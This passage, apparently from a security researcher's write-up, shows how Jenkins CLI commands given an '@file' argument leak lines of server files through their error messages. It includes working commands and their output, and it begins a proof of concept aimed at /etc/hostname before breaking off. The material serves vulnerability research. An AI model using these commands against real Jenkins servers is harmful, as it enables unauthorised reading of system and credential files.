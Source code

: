 Different commands exhibit varying abilities to read specific lines within the file. Even with _anonymous read access_ disabled, the `who-am-i` and `shutdown` commands revealed the first line, while the `enable-job` command granted access to the second line.

{{< highlight bash "hl_lines=4 11 18" >}}
❯ java -jar jenkins-cli.jar -s http://localhost:1234/ -http who-am-i "@/var/jenkins_home/fileRead_test.txt"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: No argument is allowed: line 1
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.

❯ java -jar jenkins-cli.jar -s http://localhost:1234/ -http shutdown "@/var/jenkins_home/fileRead_test.txt"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: No argument is allowed: line 1
java -jar jenkins-cli.jar shutdown
Immediately shuts down Jenkins server.

❯ java -jar jenkins-cli.jar -s http://localhost:1234/ -http enable-job "@/var/jenkins_home/fileRead_test.txt"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: Too many arguments: line 2
java -jar jenkins-cli.jar enable-job NAME
Enables a job.
 NAME : Job name
{{< /highlight >}}

The `help` command on the other hand prints both, the first and second lines.

{{< highlight bash "hl_lines=4 7" >}}
❯ java -jar jenkins-cli.jar -s http://localhost:1234/ -http help "@/var/jenkins_home/fileRead_test.txt"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: Too many arguments: line 2
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: line 1)
{{< /highlight >}}

### Creating a PoC

I wanted to see how the jar file interacted with the server, so I set up [Burp's invisible proxy](https://portswigger.net/support/using-burp-suites-invisible-proxy-settings-to-test-a-non-proxy-aware-thick-client-application). This involved setting up BurpSuite to intercept and inspect traffic by forwarding communications from port 80 on my local machine to port 1234, allowing me see the communication between the jar file and the Jenkins server.

```sh
❯ java -jar jenkins-cli.jar -s http://localhost -http connect-node "@/etc/hostname"
```

Whenever I used `jenkins-cli.jar`, I notice three specific requests:
